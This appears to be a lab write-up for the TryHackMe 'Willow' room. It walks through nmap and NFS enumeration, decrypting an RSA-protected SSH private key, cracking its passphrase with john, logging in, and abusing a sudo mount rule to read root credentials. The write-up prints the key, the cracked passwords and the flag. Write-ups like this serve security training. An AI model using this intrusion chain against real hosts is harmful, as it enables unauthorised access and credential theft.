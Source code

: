# 31 - Willow (RSA calculator for SSH key)

Room Link --> [https://tryhackme.com/room/willow](https://tryhackme.com/room/willow)

### Enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
nmap -Pn -n -p- -T5 -sV -vv 10.10.243.176

# outputs
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.10 ((Debian))
111/tcp  open  rpcbind 2-4 (RPC #100000)
2049/tcp open  nfs     2-4 (RPC #100003)
```
{% endcode %}

Opening the Webpage and we find a HEX encoded text, using cyberchef to decode it.

{% code overflow="wrap" lineNumbers="true" %}
```bash
Hey Willow, here's your SSH Private key -- you know where the decryption key is!
[..redacted..]
```
{% endcode %}

<figure><img src=".gitbook/assets/image (2) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

#### rpcbind enum \[111]

{% code overflow="wrap" lineNumbers="true" %}
```bash
nmap --script rpc-grind,rpcinfo 10.10.243.176 -p111

| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100003  2,3,4       2049/udp   nfs
|   100003  2,3,4       2049/udp6  nfs
|   100005  1,2,3      37980/udp6  mountd
|   100005  1,2,3      51482/udp   mountd
|   100005  1,2,3      53265/tcp6  mountd
|   100005  1,2,3      58183/tcp   mountd
|   100021  1,3,4      44424/udp6  nlockmgr
|   100021  1,3,4      45652/udp   nlockmgr
|   100021  1,3,4      45701/tcp6  nlockmgr
|   100021  1,3,4      50990/tcp   nlockmgr
|   100024  1          49744/udp6  status
|   100024  1          52105/tcp   status
|   100024  1          55785/udp   status
|   100024  1          58486/tcp6  status
|   100227  2,3         2049/tcp   nfs_acl
|   100227  2,3         2049/tcp6  nfs_acl
|   100227  2,3         2049/udp   nfs_acl
|_  100227  2,3         2049/udp6  nfs_acl
```
{% endcode %}

#### NFS enum \[2049]

{% code overflow="wrap" lineNumbers="true" %}
```bash
┌──(dking㉿dking)-[~/Downloads]
└─$ showmount -e 10.10.243.176      
Export list for 10.10.243.176:
/var/failsafe *

```
{% endcode %}

Mounting the NFS share.

{% code overflow="wrap" lineNumbers="true" %}
```bash
mount -t nfs 10.10.243.176:/var/failsafe /mnt/thm -o nolock

┌──(root㉿dking)-[/home/dking/Downloads]
└─# cd /mnt/thm && ls -al 
total 12
drwxr--r-- 2 nobody nogroup 4096 Jan 30  2020 .
drwxr-xr-x 3 root   root    4096 Oct 17 13:12 ..
-rw-r--r-- 1 root   root      62 Jan 30  2020 rsa_keys

┌──(root㉿dking)-[/mnt/thm]
└─# cat rsa_keys 
Public Key Pair: (23, 37627)
Private Key Pair: (61527, 37627)

# Looks like a clue.
```
{% endcode %}

Back to the Webserver :(

The hint said we should visit this blog --> [https://muirlandoracle.co.uk/2020/01/29/rsa-encryption/](https://muirlandoracle.co.uk/2020/01/29/rsa-encryption/)

At the bottom of the blog there was some code that seemed to make sense:

<figure><img src="https://miro.medium.com/v2/resize:fit:362/1*_aB1ouQQGvfU3QwUtw4QJQ.png" alt="" height="45" width="526"><figcaption></figcaption></figure>

This seemed to tie in perfectly with the information found in the NFS file:

`Public Key (e=23, n=37625)`&#x20;

`Private Key (d=61527, n=37627)`&#x20;

We use this **RSA Calculator** to decrypt the HEX values --> [https://www.cs.drexel.edu/\~jpopyack/Courses/CSP/Fa17/notes/10.1\_Cryptography/RSA\_Express\_EncryptDecrypt\_v2.html?source=post\_page-----9a0f3611283d--------------------------------](https://www.cs.drexel.edu/\~jpopyack/Courses/CSP/Fa17/notes/10.1\_Cryptography/RSA\_Express\_EncryptDecrypt\_v2.html?source=post\_page-----9a0f3611283d--------------------------------)

Just substitute the values in the appropiate box.

<figure><img src=".gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And we got the key.

```bash
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,2E2F405A3529F92188B453CAA6E33270

qUVUQaJ+YmQRqto1knT5nW6m61mhTjJ1/ZBnk4H0O5jObgJoUtOQBU+hqSXzHvcX
wLbqFh2kcSbF9SHn0sVnDQOQ1pox2NnGzt2qmmsjTffh8SGQBsGncDei3EABHcv1
gTtzGjHdn+HzvYxvA6J+TMT+akCxXb2+tfA+DObXVHzYKbGAsSNeLEE2CvVZ2X92
0HBZNEvGjsDEIQtc81d33CYjYM4rhJr0mihpCM/OGT3DSFTgZ2COW+H8TCgyhSOX
SmbK1Upwbjg490TYvlMR+OQXjVJKydWFunPj9LbL/2Ut2DOgmdvboaluXq/xHYM7
q8+Ws506DXAXw3L5r9SToYWzaXiIqaVEO145BlMCSTHXMOb2HowSM/P2EHE727sJ
JJ6ykTKOH+yY2Qit09Yt9Kc/FY/yp9LzgTMCtopGhK+1cmje8Ab5h7BMB7waMUiM
YR891N+B3IIdkHPJSL6+WPtTXw5skposYpPGZSbBNMAw5VNVKyeRZJqfMJhP7iKP
d8kExORkdC2DKu3KWkxhQv3tMpLyCUUhGZBJ/29+1At78jHzMfppf13YL13O/K7K
Uhnf8sLAN51xZdefSDoEC3tGBebahh17VTLnu/21mjE76oONZ9fe/H7Y8Cp6BKh4
GknYUmh4DQ/cqGEFr+GHVNHxQ4kE1TSI/0r4WfekbHJr3+IHeTJVI52PWaCeHSLb
bO/2bSbWENgSJ3joXxxumHr4DSvZqUInqZ9/5/jkkg+DrLsEHoHe3YyVh5QVm6ke
33yhlLOvOI6mSYYNNfQ/8U/1ee+2HjQXojvb57clLuOt6+ElQWnEcFEb74NxgQ+I
DHEvVNHFGY+Z2jvCQoGb0LOV8cvVTSDXtbNQ5f/Z3bMdN3AhMN3tQmqXTAPuOI1T
BXZ1aDS6x+s6ecKjybMV/dvnohG8+dDrssV4DPyTOLntpeBkqpSNeiM4MdhxTHj1
PCkDWfBXEAEA/hfvE1oWXMNguy3vlvKn8Sk9We5fl+tEBvPjPNSWrEHksq4ZJWSz
JMEyWi/AxTnHDFiO+3m0Eovw41tdreBU2S6QbYsa9OOAiBnDmWn2m0YmAwS0636L
NJ0Ay4L+ixfYZ+F/5oVQbhvDoXnQCO58mNYqqlDVtD/21aj1+RtoYxSX2f/jxCXt
AMF890psZEugk+mhRZZ6HCvDewmBWkghrZeREEmuWAFkQWV/3gVdMpSdteWM7YIQ
MxkyUMs4jmwvA4ktznTVN1kK7VAtkIUa8+UuVUfchKpQQjwpbGgfdMrcJe55tOdk
M7mSP/jAl9bXlpyikMhrsdkVyNpFtmJU8EGJ4v5GlQzUDuySBCiwcZ7x6u3hpDG+
/+5Nf8423Dy/iAhSWAjoZD3BdkLnfbji1g4dNrJnqHnoZaZxvxs0qQEi/NcOEm4e
W0pyDdA8so0zkTTd7gm6WFarM7ywGec5rX08gT5v3dDYbPA46LJVprtA+D3ymeR4
l3xMq6RDfzFIFa6MWS8yCK67p7mPxSfqvC5NDMONQ/fz+7fO3/pjKBYZYLuchpk4
TsH6aY4QbgnEMuA+Errb/uf/5MAhWDMqLBhi42kxaXZ1e3ZMz2penCZFf/nofbLc
-----END RSA PRIVATE KEY-----
```

The hash is encrypted, we use `ssh2john` to crack the password.

{% code overflow="wrap" lineNumbers="true" %}
```bash
ssh2john id_rsa > id_hash.john
john id_hash.john --wordlist=/usr/share/wordlists/rockyou.txt

# output
wildflower       (id_rsa) 
```
{% endcode %}

We login via ssh.

`ssh -i id_rsa willow@10.10.243.176` -  and we are logged in.

`sudo -l` - and we can execute `/bin/mount /dev/*` with privileges.

Lets first see what is in /dev/:

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*-5TMxRo9Fu-0brBgRygGTA.png" alt="" height="219" width="700"><figcaption></figcaption></figure>

There is an interesting directory /hidden\_backup. Let’s mount this, but first I will create a /dev/hidden\_backup directory in Willows /Home directory/ and then mount the /dev/hidden\_backup

_**`sudo mount /dev/hidden_backup /home/willow/dev/hidden_backup/`**_

We can now navigate to the /dev/hidden\_backup in our /home directory.

{% code overflow="wrap" %}
```bash
willow@willow-tree:~$ mkdir  dev
willow@willow-tree:~$ cd dev/
willow@willow-tree:~/dev$ mkdir hidden_backup
willow@willow-tree:~/dev$ cd ..
willow@willow-tree:~$ sudo mount /dev/hidden_backup /home/willow/dev/hidden_backup/
willow@willow-tree:~$ ls /home/willow/dev/hidden_backup/
creds.txt
willow@willow-tree:~$ cat /home/willow/dev/hidden_backup/creds.txt 
root:7QvbvBTvwPspUK
willow:U0ZZJLGYhNAT2s
```
{% endcode %}

And we got creds for root.

The user flag is in the "user.jpg" file.

Turns out the root flag was hidden inside the user.jpg file also, so we use the root password and steghide tool to get the root.txt.

{% code overflow="wrap" lineNumbers="true" %}
```bash
┌──(dking㉿dking)-[~/Downloads]
└─$ steghide extract -sf user.jpg   
Enter passphrase: 
wrote extracted data to "root.txt".
                                                                                                                 
┌──(dking㉿dking)-[~/Downloads]
└─$ cat root.txt   
THM{find_a_red_rose_on_the_grave}
```
{% endcode %}

Done !

